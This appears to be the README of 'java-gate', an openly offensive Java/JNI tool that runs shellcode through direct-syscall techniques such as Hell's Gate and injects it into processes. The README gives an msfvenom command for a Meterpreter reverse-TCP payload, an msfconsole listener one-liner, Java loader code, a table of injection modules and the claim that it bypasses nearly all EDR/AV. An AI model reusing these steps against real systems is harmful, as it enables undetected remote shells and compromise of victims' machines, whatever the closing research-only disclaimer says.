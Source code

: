 # java-gate

![](https://img.shields.io/badge/build-passing-brightgreen)
![](https://img.shields.io/github/downloads/4ra1n/java-gate/total)
![](https://img.shields.io/github/v/release/4ra1n/java-gate)

[中文文档](doc/README.zh-CN.md)

The `java-gate` project allows for the implementation of various techniques related to "Hell's Gate" using simple Java code, which involves direct system calls.

```java
byte[] shellcode = new byte[] {(byte)0xfc, (byte)0x48, ...};
HellsGate gate = new HellsGate(shellcode);
gate.exec();
```

Furthermore, it supports various techniques derived from "Hell's Gate," such as "Halo's Gate," "Recycled Gate," and "Tartarus Gate," among others. In addition to system call-related functionalities, it is compiled and built using C and NASM/MASM assembly, and invoked at the Java layer through JNI. The project also provides many common methods for injecting shellcode, such as APC injection and remote thread injection. All these low-level techniques can be achieved using simple Java code.

## Introduction

Why named "java-gate": This project mainly integrates various techniques related to direct system calls, such as Hell's Gate and Halo's Gate. Therefore, it is named "Java Gate," which can also be understood as a gateway between Java and the underlying system.

Note:

- This project only supports 64-bit Windows and 64-bit JVM (as per JNI's requirement that a 64-bit JVM can only load 64-bit DLLs).
- It is recommended to use 64-bit shellcode (e.g., windows/x64/meterpreter/reverse_tcp).
- Loading shellcode in any way may potentially cause JVM crashes (e.g., if the shellcode does not restore the context).
- Only tested in JDK 8, other versions of JDK may not be stable.

## Quick Start

(1) Add the `jitpack` repository to your `Maven` configuration:

```xml
<repositories>
    <repository>
        <id>jitpack.io</id>
        <url>https://jitpack.io</url>
    </repository>
</repositories>
```

(2) Import the project:

```xml
<dependency>
    <groupId>com.github.4ra1n</groupId>
    <artifactId>java-gate</artifactId>
    <version>0.0.2</version>
</dependency>
```

(3) Obtain the shellcode

Here, we'll use `meterpreter` as an example.

```shell
msfvenom --platform windows -p windows/x64/meterpreter/reverse_tcp LHOST=YOUR-IP LPORT=YOUR-PORT -f java
```

(4) Start the `msfconsole` listener

Here, we'll use `meterpreter` as an example.

```shell
msfconsole -x "use exploit/multi/handler;set payload windows/x64/meterpreter/reverse_tcp;set LHOST 0.0.0.0;set LPORT YOUR-PORT;run;"
```

(5) Write a test program

```java
package me.n1ar4;

import me.n1ar4.gate.core.HellsGate;

public class Main {
    public static void main(String[] args) {
        byte buf[] = new byte[]
                {
                        (byte) 0xfc, (byte) 0x48, ...
                };
        HellsGate gate = new HellsGate(buf);
        gate.exec();
    }
}
```

(6) Go online

The `msfconsole` connection is successfully established.

The system call modules are as follows. Usage is similar to the previous examples, just change the class name.

| Module        | Class                           | Description   | Optional |
|:--------------|:--------------------------------|:--------------|:---------|
| hells-gate    | me.n1ar4.gate.core.HellsGate    | Hells Gate    | /        |
| halos-gate    | me.n1ar4.gate.core.HalosGate    | Halos Gate    | /        |
| recycled-gate | me.n1ar4.gate.core.RecycledGate | Recycled Gate | /        |
| ssn-syscall   | me.n1ar4.gate.core.SSNSyscall   | SSN Syscall   | /        |
| tartarus-gate | me.n1ar4.gate.core.TartarusGate | Tartarus Gate | /        |

The loader modules are as follows. Usage is similar to the previous examples, just change the class name.

| Module     | Class                                | Description                                              | Optional     |
|:-----------|:-------------------------------------|:---------------------------------------------------------|:-------------|
| apc1       | me.n1ar4.gate.loader.APC1Loader      | APC injection using NtTestAlert                          | /            |
| apc2       | me.n1ar4.gate.loader.APC2Loader      | Simple thread-based APC injection                        | /            |
| crt        | me.n1ar4.gate.loader.CRTLoader       | Simple remote thread injection                           | Process name |
| divide     | me.n1ar4.gate.loader.DivideLoader    | Create process and inject into it                        | /            |
| early-bird | me.n1ar4.gate.loader.EarlyBirdLoader | Create new process and APC inject                        | /            |
| etwp       | me.n1ar4.gate.loader.EtwpLoader      | EtwpCreateEtwThread-based injection                      | /            |
| rip        | me.n1ar4.gate.loader.RIPLoader       | Modify thread context RIP register and execute shellcode | /            |

Here is an example of how to use the command-line tool.

```shell
java -jar java-gate.jar [module] [shellcode-hex-string] [optional]
```

Since the JVM may crash, there is a way to create a new process and execute the code.

```shell
java -jar java-gate.jar run-new-jvm [module] [shellcode-hex-string]
```

This is also an approach, and if you want to run this project in your custom code, you can refer to the code `JavaGate#runNewJVM`.

## Build

There are pre-packaged versions available in the "Release" section, but if you are not confident or need to add your own features, you can manually build it by following these steps:

Please note that this project only supports Windows 64-bit and JVM 64-bit environments, so it can only be compiled and built in that environment.

**(1) MSVC x64**

The `CMake Toolchains` use the `MSVC x64` tool, and most of the assembly is based on the `ml64` compiler from `MSVC`.

**(2) CMake 3.x**

The `C` and assembly code is compiled and built using `CMake` to generate the corresponding `DLL` file for `JNI`. It is recommended to use CLion.

**(3) NASM**

Most of the assembly is compiled using `MASM`, but some assembly is compiled using `NASM`, which needs to be downloaded and configured separately in the `PATH`.

**(4) JDK 8 & Maven**

The `Java` part of the code is built using `Java 8` and `Maven`. It is recommended to use IDEA.

**(5) Python 3.x**

This project uses `Python` for some auxiliary tools, which is not actually a necessary option.

## Some tests

Almost Bypass all EDR/AV

## References and Acknowledgements

Many thanks to the following excellent projects for providing code (most of the code in this project is based on these):

- https://github.com/am0nsec/HellsGate
- https://github.com/boku7/AsmHalosGate
- https://github.com/thefLink/RecycledGate
- https://github.com/trickster0/TartarusGate
- https://github.com/janoglezcampos/c_syscalls

## Disclaimer

This tool is intended for cybersecurity research and educational purposes only. It should not be used for any illegal activities.